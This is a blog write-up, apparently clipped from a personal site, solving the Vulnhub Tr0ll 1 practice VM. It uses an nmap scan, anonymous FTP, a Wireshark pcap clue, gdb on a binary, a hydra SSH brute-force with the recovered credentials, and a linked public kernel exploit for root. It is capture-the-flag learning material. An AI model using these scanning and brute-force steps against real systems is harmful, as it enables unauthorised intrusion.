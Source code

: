 ```yaml
---
layout: post
title: "Vulnhub Tr0ll 1"
source: "https://anotsodev.me/vulnhub-tr0ll-1/"
author:
  - "[[anotsodev]]"
date: 2017-08-25
description: "Started with the Nmap Scan # Nmap 7.40 scan initiated Thu Aug 3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102 Nmap scan report for 192.168.8.102 Host is up (0.0035s latency). Not shown: 997…"
tags:
  - "clippings"
---
```

Started with the Nmap Scan

```
# Nmap 7.40 scan initiated Thu Aug  3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102
Nmap scan report for 192.168.8.102
Host is up (0.0035s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  3 20:59:07 2017 -- 1 IP address (1 host up) scanned in 19.95 seconds
```
- port 21
- port 22
- port 80

![screenshot-from-2017-08-07-14-59-21-e1503681730435.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot-from-2017-08-07-14-59-21-e1503681890612.png?resize=734%2C585&ssl=1)

![screenshot20from202017-08-072015-02-06.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-02-06-e1503681876965.png?resize=656%2C296&ssl=1)

There is a directory in the web server named secret. So I opened the /secret directory and it showed me this.

![screenshot20from202017-08-072015-03-20.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-03-20-e1503682119899.png?resize=745%2C650&ssl=1)

And yes, it made me mad after seeing this.

Continuing my enumeration, I saw that the FTP server allows anonymous login, so I fired up my Filezilla and browse the FTP server. There is a file there named lol.pcap. Pcap is a file that contains the captured network traffics from network analyzers such as Wireshark and some other tools. So to open the pcap file, I launched Wireshark and read the pcap file. It showed me this.

![screenshot20from202017-08-032021-37-00-e1503682196980.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-032021-37-00-e1503710304210.png?resize=1170%2C610&ssl=1)

I noticed the “sup3rs3cr3tdirlol” and tried to open it and voila.

![screenshot20from202017-08-072015-13-36.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-13-36-e1503682263987.png?resize=548%2C388&ssl=1)

I downloaded the file named roflmao then run the file command to determine the filetype of the downloaded file. It shows that it is an ELF 32-bit LSB executable.

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

So the next thing I did was to run the gdb then run the executable file.

```
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from roflmao...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/kaipowered/Documents/Vulnhub/tr0ll/roflmao 
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
(gdb)
```

The output showed me this

```
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
```

I tried to find the said address but I wasn’t able to find it in the memory, so I tried opening it on the web browser and it appears that it is a directory on the web server (luck I guess).

![screenshot20from202017-08-072015-24-34](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-24-34-e1503682433212.png?resize=659%2C390&ssl=1)

```
hydra -L which_one_lol.txt -P Pass.txt 192.168.8.102
```

At first, the usernames and passwords combination did not work, so it was so frustrating.

```
hydra -L which_one_lol.txt -p Pass.txt 192.168.8.102
```

But it appears that the real password is the “Pass.txt”, so I just changed the option from -P to -p, meaning, with the given password, try the usernames from which\_one\_lol.txt to match the correct combinations with hydra.

After bruteforcing, I was able to get the username and password of the machine.

```
username: overflow
password: Pass.txt
```

Commands Used

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ ssh overflow@192.168.8.102
overflow@192.168.8.102's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug  6 23:35:25 2017 from 192.168.8.2
Could not chdir to home directory /home/overflow: No such file or directory
$
```

https://www.exploit-db.com/exploits/37292/

And after successfully exploited the tr0ll vm, I was able to get and read the Proof.txt that can be found in /root directory.

— FIN —

Solving this challenge was quite frustrating at first because, you know, the tr0ll is trolling you, but most of the time, when I found something interesting and it just appeared that I have been tr0lled, I just found myself grinning while clenching my fists, but of course I enjoyed solving this challenge.

---

**Subscribe for more!**

To stay up to date with my latest posts and more InfoSec guides, make sure to subscribe to this blog by entering your email address below.

I promise I won’t be spamming your mailbox. Because no one loves spam. AMIRIGHT?

![](https://i0.wp.com/anotsodev.me/wp-content/uploads/2020/04/more-spam.gif?resize=768%2C576&ssl=1)